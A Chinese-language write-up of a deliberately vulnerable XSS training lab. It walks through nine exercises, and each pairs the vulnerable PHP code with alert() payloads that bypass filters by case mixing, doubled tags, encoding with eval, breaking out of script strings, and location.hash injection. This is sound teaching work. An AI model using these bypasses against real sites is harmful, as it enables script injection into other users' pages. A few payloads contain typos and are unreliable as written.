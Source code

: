 ```yaml
---
layout: default
category: Web安全
tags: [xss, Web安全]
---
```


### 知识储备

常见的XSS测试语句：

```js
<script>alert(1)</script>
<img src='1' onerror='alert(1)'>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
<iframe src=javascript:alert(1)><iframe>
...
```

### 第1题： 无过滤

**payload:**

```js
<script>alert(hey)</script>
```

php代码：

```php
    <?php   
        echo $_GET["name"];  
    ?> 
```

### 第二题：大小写绕过

该题目过滤了小写的`<script> </script>`标签，可通过大小写绕过

**payload:**

```js
<Script>alert(1)</sCript>
<iframe src=javascript:alert(1)><iframe>
<img src='1' onerror='alert(1)'>
<a href=javascript:alert(1)>
...
```

php代码

```php
<?php   
    $name = $_GET["name"];  
    $name = preg_replace("/<script>/", "", $name);  
    $name = preg_replace("/<\/script>/", "", $name);  
    echo $name;  
?>  
```

### 第三题：双写绕过

输入`<Script>alert(1)</sCript>`, 发现`<script>等`标签被过滤了，但是`alert(1)`还在，可知大小写的`<script> </script>`标签都过滤，考虑双写绕过

payload:

```js
<Scr<script>ipt>alert(1)</scr</script>ipt>
当然还有：
<iframe src=javascript:alert(1)><iframe>
<img src='1' onerror='alert(1)'>
...
```

php代码：

```php
<?php   
    $name = $_GET["name"];  
    $name = preg_replace("/<script>/i", "", $name);  
    $name = preg_replace("/<\/script>/i", "", $name);  
    echo $name;  
?>  
```

### 第四题：尝试其他标签`<img>`，`<a>`

输入`<Script>alert(1)</sCript>`,发现会产生ERROR，输入`<> </>`等，但是并没有过滤，那就尝试其他标签，如`<img>`, `<a>`等

payload：

```
<img src='1' onerror='alert(1)'>
<a href=javascript:alert(1)>
...
```

### 第五题：编码绕过

输入`<Script>alert(1)</sCript>`，`<img src='1' onerror='alert(1)'>`， 都会产生error，有的时候，服务器会对一些关键词进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval()来实现。eval()会将编码过的语句解码后再执行。

常见的编码：JS编码、HTML实体编码、url编码...

**解法一：**

alert(1)编码过后就是\u0061\u006c\u0065\u0072\u0074(1)，

payload：

```js
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

**解法二：**

使用`String.fromCharCode()` alert('xxs')的十进制为`97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59`

payload：

```js
<script>eval(Strinf.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59))</script>
...
```

### 第六题：闭合标签

查看源码发现我们输出的hacker作为了一个变量赋值给了a，并且这个变量在`<script>`这个标签中这样的话，只要能够突破这个赋值的变量，就可以利用这个`<script>`这个标签来弹窗了。
payload：

```js
12";</script><img src=1 onerror=alert('xss')><script>
"; b=alert('xss');eval(b);//
...
```

来查看下源码来简单的分析一下:

```js
Hello 
<script>
    var $a= "12";</script><img src=1 onerror=alert('xss')><script>";
</script>
```

payload最前面的11";`</script> `闭合了前面的`<script>`标签最后面的`<script>` 闭合了后面的`<script>`标签中间的`<img src=1 onerror=alert('xss')>`用来触发弹窗事件.

### 第七题：单引号绕过

输入payload：`"; b=alert('xss');eval(b);//` 发现并没有弹窗，吓出一身冷汗，赶紧查看源代码

```js
<script>
	var $a= '"; b=alert('xss');eval(b);//';
</script>
```

得知并没有过滤`alert()`, 过滤了双引号，那么就换成单引号绕过嘛

payload：

```js
'; b=alert('xss');eval(b);//
```

Php代码

```php
<script>  
    var $a = "<?php echo htmlentities($_GET["name"]); ?>";  
<script>  
// htmlentities并没有过滤单引号   
```

### 第八题

通过查看源码：

```js
<form action="/xss/example8.php" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>
```

点击提交后还是跳转到本url进行处理，满腔热血地输入payload`<img src='1' onerror='alert(1)'>`等，结果令人失望，但是发现并没有过滤`<  > _`等符号，想到第七题，再来个闭合标签，构造payload

```
http://192.168.244.140/xss/example8.php/"method="POST"><script>alert(1)</script>
```

并不是在input标签输入，哪里会转移字符的。

查看源码：

```
<form action="/xss/example8.php/"method="POST"><script>alert(1)</script>" method="POST">
```

`/"method="POST">`闭合了之前的标签，然后在后添加`<script>`标签。

### 第九题

在源码中完全找不到hacker的任何字样，于是仔细百度最可疑的地方:

```js
<script>
  document.write(location.hash.substring(1));
</script>
```

`location.hash.substring(1)`函数的作用是输出当前页面url锚部分（从 # 号开始的部分）。

构造payload：

```js
#<script>alert(1)</script>
```

### 后记

在实际运用中漏洞的利用可能不会这么直观，需要我们不断的尝试，甚至组合各种绕过方式来达到目的。